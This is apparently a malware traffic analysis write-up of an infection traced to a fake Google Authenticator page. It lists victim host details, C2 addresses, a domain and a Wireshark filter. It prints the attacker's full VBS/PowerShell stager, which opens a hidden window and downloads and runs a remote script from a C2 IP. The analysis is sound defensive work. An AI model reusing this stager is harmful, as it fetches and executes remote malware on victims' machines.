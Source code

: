 Victim details
	ip - 10.1.17[.]215
	mac - 00:d0:b7:26:4a:74
	hostname - desktop-l8c5gsj
	username - shutchenson

IOC's
	At 19:45:56 UTC a GET request was made to `http://5.252.153[.]241/api/file/get-file/264872`

This executed the following powershell command

```powershell
Set objShell = CreateObject("Wscript.Shell")
objShell.Run("cmd /c start /min powershell -NoProfile -WindowStyle Hidden -Command ""start-process 'https://azure.microsoft.com'; iex (new-object System.Net.WebClient).'DownloadString'('http://5.252.153.241:80/api/file/get-file/29842.ps1');#URL: https://teams.microsoft.com""
```
This script seems to download another powershell file. The 29842.ps1 file seems to be obfuscated but it seems to try to make a connection to 5.252.153[.]241. After a few tries it succeeds and it downloads the malicious teamviewer.exe file. 

When checking for other C2 server, the IP address 45.125.66[.]32 also came to view.

```
tcp.flags eq 0x0002 and !(tcp.port eq 443) and !(tcp.port eq 80) and !(ip.dst eq 10.1.17.0/24)
```

The domain likely used for the fake Google Authenticator page is authenticatoor[.]org.
